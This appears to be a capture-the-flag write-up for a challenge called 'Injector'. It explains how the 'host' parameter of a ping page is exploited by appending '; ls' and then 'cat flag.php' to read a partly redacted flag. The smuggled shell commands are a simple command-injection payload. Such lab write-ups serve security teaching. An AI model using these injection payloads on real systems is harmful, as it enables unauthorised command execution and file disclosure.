 # Injector

Once we navigate to the website, all we see is `command executed: ping -c 2` displayed on the main page.    

However, in the address bar, we can see that the `host` parameter is visible.  

```
http://34.159.31.74:30043/index.php?host=127.0.0.1
```

Considering the name of the CTF, I tried replacing the localhost with the `ls` command.  
It gave no results, and I have tried using `; ls`.  

```
flag.php
index.php

Command executed: ping -c 2 ;ls
```

We see that the webpage is vulnerable to command injection.  
Replace the `ls` payload with `cat flag.php` to retrieve the flag.  

FLAG: CTF{C0mm4{REDACTED}4sy}

<sub>NOTE: the flag is visible only in the page source </sub>
